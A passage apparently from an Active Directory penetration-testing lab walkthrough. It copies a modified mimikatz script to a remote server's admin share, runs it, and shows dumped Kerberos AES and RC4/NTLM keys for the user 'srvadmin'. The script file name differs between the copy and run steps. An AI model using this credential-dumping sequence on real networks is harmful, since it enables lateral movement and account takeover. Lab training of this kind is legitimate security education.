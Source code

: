 ```powershell
Copy-Item C:\AD\Tools\Invoke-MimiEX-keys-std687.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
```

<figure><img src="../../.gitbook/assets/image (194).png" alt=""><figcaption></figcaption></figure>

Now, run the modified mimikatz script. Note that there is no dot sourcing here. It may take a couple of minutes for the script execution to complete:

```powershell
.\Invoke-MimiEX-keys-std867.ps1
```

```powershell
mimikatz(powershell) # sekurlsa::ekeys

Authentication Id : 0 ; 5853380 (00000000:005950c4)
Session           : RemoteInteractive from 2
User Name         : srvadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/11/2025 4:22:58 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1115

         * Username : srvadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       145019659e1da3fb150ed94d510eb770276cfbd0cbd834a4ac331f2effe1dbb4
           rc4_hmac_nt       a98e18228819e8eec3dfa33cb68b0728
           rc4_hmac_old      a98e18228819e8eec3dfa33cb68b0728
           rc4_md4           a98e18228819e8eec3dfa33cb68b0728
           rc4_hmac_nt_exp   a98e18228819e8eec3dfa33cb68b0728
           rc4_hmac_old_exp  a98e18228819e8eec3dfa33cb68b0728


```
